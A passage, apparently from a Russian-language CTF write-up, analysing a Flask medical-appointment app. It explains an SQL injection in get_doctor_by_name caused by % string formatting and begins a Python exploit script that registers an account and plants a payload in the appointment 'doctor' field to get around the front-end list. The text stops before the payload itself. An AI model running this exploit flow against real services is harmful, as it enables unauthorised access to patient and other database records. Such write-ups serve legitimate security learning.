 ```python
    return redirect(url_for('info_app', appid=app_id))

@app.route('/appointments/<appid>/info', methods=['GET'])
def info_app(appid):
    if 'logged' not in session or not session['logged']:
        return redirect(url_for('index'))
    app_info = db.get_appointment_by_id(appid)[0]
    doctor = db.get_doctor_by_name(app_info[2])[0]
    return render_template('appointCurrent.html', appinfo=app_info, doctor=doctor)
```

В функции "get_doctor_by_name" при выполнении запроса к БД используется небезопасная операция форматирования (`%`). При использовании данного оператора в SQL-запрос поставляется значение переменной без какого-либо экранирования. Таким образом возникает уязвимость данной функции.

Проанализировав код, мы видим, что данная функция вызывается в API `GET /appointments/<appid>/info`. Чтобы достичь данной части кода необходимо предварительно записаться на прием к врачу, вызвав API `POST /appointments/create`, записав в поле `doctor` полезную нагрузку.

Руками такое точно реализовать не получится по причине того, что на front-end'е для поля `doctor` установлен список, из которого можно выбрать врача, поэтому пишем эксплойт, который нам поможет обойти выбор доктора из списка:

```python
import os
import requests
from bs4 import BeautifulSoup


# Функция для регистрации аккаунта
def register(session, url, username, password):
    res = session.post(
        url + "/register",
        data={
            "username": username,
            "personalData": f"{username}@gmail.com",
            "password": password,
            "passwordRep": password,
        },
        allow_redirects=False,
    )
    if res.status_code != 302:
        raise Exception("Failed to register user")
    if "err=" in res.headers["Location"]:
        raise Exception("Failed to register user")
    return True


# Функция для создания записи ко врачу
def create_appointment(session, url, doctor):
    res = session.post(
        url + "/appointments/create",
        data={
            "fio": "test",
            "timeStamp": "2023-01-09",
            "insNum": "test",
            "doctor": doctor,
        },
        allow_redirects=False,
    )
    return res.headers["Location"].split("/")[-2]


# Функция для получения информации о записи
def get_appointment(session, url, appointment_id):
```